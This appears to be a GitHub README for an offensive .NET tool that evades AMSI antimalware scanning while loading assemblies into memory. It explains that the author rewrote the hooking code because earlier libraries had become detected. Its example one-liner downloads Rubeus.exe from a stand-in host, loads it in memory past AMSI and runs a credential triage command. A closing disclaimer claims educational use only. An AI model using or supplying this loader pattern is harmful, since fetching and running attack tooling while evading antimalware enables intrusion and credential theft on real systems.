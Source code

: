 # TrollAMSIdotnet
TrollAMSI only bypasses powershell's amsi and not the CLR amsi during Assembly.Load(). Was looking for a troll way to do this but seems like already done in the most epic way possible: https://github.com/G0ldenGunSec/SharpTransactedLoad. Read his blog for full details on his ingenious approach to bypassing amsi. G0ldenGunSec's implementation uses easyhook.dll for hooking which inturn requires cody fostura. Due to the proliferated use of both libraries in offensive security projects, they have been signaturized. Decided to re-write the hooking aspect but then realised there's a simple library already created for that: https://github.com/liulilittle/NetHook. Ended up just copy pasting code to create a single .cs file for convenience.


**Note:** Only .cs version released, you can just compile it to an assembly and load it (refer to trollAMSI) 
  
## Usage 
```
$asm = [TrollAMSIdotnet]::Load(<BYTE_ARRAY_DOWNLOAD>,<ASSEMBLY_NAME>) 
[string[]]$args = "<ARGUMENT_TO_ASSEMBLY>", "<ARGUMENT_TO_ASSEMBLY>"
[TrollAMSIdotnet]::Invoke($asm,$args)
```

## Example 
```
$asm = [TrollAMSIdotnet]::Load((New-Object System.Net.WebClient).DownloadData("https://troll.com/Rubeus.exe"),"Rubeus.exe") 
[string[]]$args = "triage", "/consoleoutfile:C:\FILE.txt"
[TrollAMSIdotnet]::Invoke($asm,$args)
```


## Disclaimer
Should only be used for educational purposes!
